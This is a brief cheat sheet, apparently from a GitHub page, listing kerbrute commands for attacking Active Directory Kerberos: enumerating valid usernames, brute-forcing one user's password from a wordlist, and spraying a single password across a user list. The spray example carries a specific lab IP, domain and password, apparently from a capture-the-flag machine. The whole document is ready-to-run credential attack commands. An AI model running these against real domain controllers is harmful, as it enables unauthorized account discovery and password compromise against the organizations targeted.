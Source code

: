 ## EnumUser

```
./kerbrute userenum -v --dc <IP address> -d <Domain> <User list>
```

## BruteUser

```
./kerbrute bruteuser -v --dc <IP address> -d <Domain> <Passoword list> <Username>
```

## Userlist & one password

```
./kerbrute passwordspray -v --dc 10.10.10.169 -d megabank.local users.txt 'Welcome123!
```
